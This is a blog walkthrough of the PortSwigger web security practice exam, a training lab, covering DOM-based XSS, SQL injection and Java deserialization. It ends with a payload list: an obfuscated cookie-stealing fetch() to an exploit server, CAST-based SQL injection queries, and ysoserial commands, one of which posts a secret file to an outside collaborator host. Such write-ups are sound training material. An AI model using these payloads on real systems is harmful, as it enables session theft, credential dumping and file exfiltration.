opcod3r's blog
Infosec/Dev/CC Things
In this blog post, we’ll embark on a journey to dissect the solution to a challenging practice exam question provided by PortSwigger. We’ll delve deep into the intricacies of web security, emphasizing the critical importance of understanding vulnerabilities, exploitation techniques, and mitigation strategies. By the time you finish reading this article, you’ll have gained valuable insights into real-world web security scenarios, equipping yourself with the knowledge required to effectively protect digital assets.
Before we begin, let’s briefly introduce the PortSwigger practice exam. You can find more information about this exam here.
Here’s an overview of what the practice exam entails:
- You have a two-hour window to complete the practice exam.
- The exam involves exploiting a single vulnerable application.
- The assessment is divided into three distinct stages:
- Finding the user
- Escalating privileges
- Achieving Remote Code Execution (RCE) or Command Execution
Now, let’s delve into the details of each stage, exploring the challenges and solutions that await:
First Stage: Finding the User
The first stage presents a dom-based Cross-Site Scripting (XSS) challenge. However, there are restrictions in place that require creative bypass techniques. We’ll walk you through the process of chaining payloads to successfully exploit the vulnerability and retrieve the user token.

The journey to finding the user token will involve a series of payload chains, as illustrated below:


After numerous attempts and perseverance, you’ll achieve the desired outcome:



Second Stage: SQL Injection and Admin Login
The second stage may seem mundane but proves to be a critical test of your SQL injection skills. You’ll need to utilize CAST() clauses to extract the admin password.
To begin, you’ll want to confirm the presence of an SQL error when manipulating the ‘organize_by’ parameter:

With some persistence, you’ll uncover valuable information:

You’ll gather details such as the database version, user, and password:




Delete user carlos :-)

Completing this stage, you’ll have accomplished two major milestones:
- Successful SQL injection
- Admin login credentials
Third Stage: Remote Code Execution via Deserialization
In the final stage, you’ll log in as the admin and inspect the cookies, specifically looking for a cookie named ‘admin’ with a known pattern ‘H4sIAAAAAAAAA.’ This pattern typically signifies a serialized Java string:

To achieve Remote Code Execution (RCE) via deserialization, you’ll need a tool like ysoserial. Following the guidance provided in Hack Tricks, you’ll generate a payload.
Here’s a simplified example of a Java URLDNS payload:

Upon successful payload execution, you’ll receive a callback:

Next, you’ll generate a payload to retrieve the contents of ‘/home/carlos/secret’:

And here’s the resulting data:

With this, you’ve achieved Remote Code Execution, completing the third stage and ultimately conquering the PortSwigger practice exam.
To further assist you in your web security endeavors, i’ve included some useful payload references and commands below:
fetch(`https://exploit-0ad000380440d0c28074023d010f00c1.exploit-server.net/exploit/?cookie=` + window["document"]["cookie"])
ZmV0Y2goYGh0dHBzOi8vZXhwbG9pdC0wYWQwMDAzODA0NDBkMGMyODA3NDAyM2QwMTBmMDBjMS5leHBsb2l0LXNlcnZlci5uZXQvZXhwbG9pdC8/Y29va2llPWAgKyB3aW5kb3dbImRvY3VtZW50Il1bImNvb2tpZSJdKQ==
"-eval(atob("ZmV0Y2goYGh0dHBzOi8vZXhwbG9pdC0wYWQwMDAzODA0NDBkMGMyODA3NDAyM2QwMTBmMDBjMS5leHBsb2l0LXNlcnZlci5uZXQvZXhwbG9pdC8/YCArIHdpbmRvd1siZG9jdW1lbnQiXVsiY29va2llIl0p"))-"
%22%2Deval%28atob%28%22ZmV0Y2goYGh0dHBzOi8vZXhwbG9pdC0wYWQwMDAzODA0NDBkMGMyODA3NDAyM2QwMTBmMDBjMS5leHBsb2l0LXNlcnZlci5uZXQvZXhwbG9pdC8%2FYCArIHdpbmRvd1siZG9jdW1lbnQiXVsiY29va2llIl0p%22%29%29%2D%22
<script>
location = "https://0a4a000a04b7d03c805f03c700b000a3.web-security-academy.net/?SearchTerm=%22%2Deval%28atob%28%22ZmV0Y2goYGh0dHBzOi8vZXhwbG9pdC0wYWQwMDAzODA0NDBkMGMyODA3NDAyM2QwMTBmMDBjMS5leHBsb2l0LXNlcnZlci5uZXQvZXhwbG9pdC8%2FYCArIHdpbmRvd1siZG9jdW1lbnQiXVsiY29va2llIl0p%22%29%29%2D%22"
</script>
# Example: Java URLDNS Payload
java -jar ysoserial-master-2 URLDNS https://t3x5wb0gfqrahx9rqg52p1s4zv5mthh6.oastify.com | gzip -f | base64 -w0
# Example: Common Utilities
java -jar ysoserial-master-2874a69f61-1.jar CommonsBeanutils1 'wget --post-file /home/carlos/secret t3x5wb0gfqrahx9rqg52p1s4zv5mthh6.oastify.com' | gzip -f | base64 -w0
# Example: SQL Injection Payloads
true+and+cast((select+version())as+boolean)
true+and+cast((select+username+from+users+limit+1)as+boolean)
true+and+cast((select+password+from+users+limit+1)as+boolean)